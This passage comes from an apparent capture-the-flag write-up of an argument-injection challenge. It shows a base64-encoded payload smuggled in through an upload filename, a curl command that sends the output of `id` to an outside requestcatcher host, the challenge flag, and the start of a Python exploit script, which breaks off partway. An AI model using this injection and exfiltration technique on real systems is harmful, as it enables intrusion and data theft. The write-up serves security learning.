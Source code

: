If we look at the underlying request, we see that there is actually an issue with the filename.
![[invalid_filename.png]]

By the way, it is not possible to use `/` in the filename, and thus in our payload. It is therefore not possible to use commands such as `cat /flag.txt`. Damn, that will makes things a bit harder.

A simple trick to circumvent this is to base64 encode the payload :
![[b64-encode-trick.png]]

We encode our callback payload :
```bash
curl -X POST -d "$(id)" https://happi.requestcatcher.com/test
```

and this time, we finally get a callback !

![[callback1.png]]

We make a `ls /` to retrieve the name of the flag file and then we make a `cat`.


![[pwned.png]]

The flag is **`byuctf{argument_injection_stumped_me_the_most_at_D3FC0N_last_year}`** !

## Exploit code

```python
#!/usr/bin/env python3

from uuid import uuid4
import requests
import base64
import urllib3
urllib3.disable_warnings()

base_url = "https://argument.chal.cyberjousting.com"
# base_url = "http://127.0.0.1:1337"

routes = {
  "home": f"{base_url}/",
  "download": f"{base_url}/api/download",
  "upload": f"{base_url}/api/upload"
}

class Exploit:
  def __init__(self, s):
    self.uuid = uuid4()
    self.s = s
    self.s.verify = False
    self.s.proxies = {'http':'0.0.0.0:8080', 'https':'0.0.0.0:8080'}
    self.routes = routes
    self.s.get(self.routes['home'])


  def download(self):
    return self.s.get(self.routes["download"]).content.decode().strip().replace('\0', '')


  def upload(self, filename, data):
    files = {
      'file': (filename, data, 'application/x-shellscript'),
    }
    try:
      r = self.s.post(self.routes['upload'], files=files)
    except err as e:
```